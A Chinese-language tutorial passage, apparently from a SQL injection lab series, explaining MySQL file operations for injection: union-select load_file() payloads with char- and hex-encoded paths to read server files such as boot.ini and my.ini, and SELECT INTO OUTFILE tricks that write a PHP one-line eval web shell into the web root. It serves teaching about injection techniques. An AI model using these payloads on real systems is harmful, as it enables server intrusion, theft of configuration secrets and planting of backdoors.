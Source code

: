 # 六、Background-3 导入导出相关操作的讲解

### 1. load_file()导出文件

load_file(file_name):读取文件并返回该文件的内容作为一个字符串。

使用条件：

A.必须有权限读取并且文件必须完全可读
> * and (select count(*) from mysql.user)>0/* 如果结果返回正常,说明具有读写权限。<br>
> * and (select count(*) from mysql.user)>0/* 返回错误，应该是管理员给数据库帐户降权了。

B.欲读取文件必须在服务器上<br>
C.必须指定文件完整的路径<br>
D.欲读取文件必须小于max_allowed_packet<br>

若文件不存在或读取失败，load_file()函数返回空。

MySQL注入load_file常用路径：<https://www.cnblogs.com/lcamry/p/5729087.html>

> EG：
> 1. Select 1,2,3,hex(replace(load_file(char(99,58,92,119,105,110,100,111,119,115,92,114,101,112,97,105,114,92,115,97,109))))<br>
利用hex()将文件内容导出来，尤其是smb文件时可以使用。
> 2. -1 union select 1,1,1,load_file(char(99,58,47,98,111,111,116,46,105,110,105))<br>
Explain：“char(99,58,47,98,111,111,116,46,105,110,105)”就是“c:/boot.ini”的ASCII 代码
> 3. -1 union select 1,1,1,load_file(0x633a2f626f6f742e696e69)<br>
Explain：“c:/boot.ini”的16 进制是“0x633a2f626f6f742e696e69”
> 4. -1 union select 1,1,1,load_file(c:\\boot.ini)<br>
Explain:路径里的/用\\代替

### 2. 文件导入到数据库

LOAD DATA INFILE 语句用于高速地从一个文本文件中读取行，并装入一个表中。文件名称必
须为一个文字字符串。

函数具体介绍请参考mysql文档。
```sql
LOAD DATA [LOW_PRIORITY | CONCURRENT] [LOCAL] INFILE 'file_name'
    [REPLACE | IGNORE]
    INTO TABLE tbl_name
    [PARTITION (partition_name,...)]
    [CHARACTER SET charset_name]
    [{FIELDS | COLUMNS}
        [TERMINATED BY 'string']
        [[OPTIONALLY] ENCLOSED BY 'char']
        [ESCAPED BY 'char']
    ]
    [LINES
        [STARTING BY 'string']
        [TERMINATED BY 'string']
    ]
    [IGNORE number {LINES | ROWS}]
    [(col_name_or_user_var,...)]
    [SET col_name = expr,...]
```

### 3. 导入到文件

SELECT.....INTO OUTFILE 'file_name'

将选择行写入到文件中，被创建到服务器上（注意须有权限，且文件尚未存在）。一般有两种形式：

1. 第一种形式是将select导入到文件中
> EG:<br>
Select version() into outfile "c:\\test.txt";
<br>
替换成“一句话木马”(`<?php @eval($_post[“mima”])?>`)也可以<br>
Select <?php @eval($_post[“mima”])?> into outfile “c:\\webdir\\test.php”

2. 第二种形式是修改文件结尾

> Select version() Into outfile “c:\\phpnow\\htdocs\\test.php” LINES TERMINATED BY 0x16 进制文件

> 16 进制可以为"一句话木马"或者其他任何的代码，可自行构造。

> 在sqlmap 中os-shell 采取的就是这样的方式，具体可参考os-shell 分析文章：<http://www.cnblogs.com/lcamry/p/5505110.html>

**TIPS:**<br>
（1）可能在文件路径当中要注意转义，这个要看具体的环境。<br>
（2）上述我们提到了load_file(),但是当前台无法导出数据的时候，我们可以利用下面的语句：<br>
`select load_file(‘c:\\wamp\\bin\\mysql\\mysql5.6.17\\my.ini’)into outfile 'c:\\wamp\\www\\test.php'`

可以利用该语句将服务器当中的内容导入到web 服务器下的目录，这样就可以得到数据了。上述my.ini 当中存在password 项（不过默认被注释），当然会有很多的内容可以被导出来，这个要平时积累。







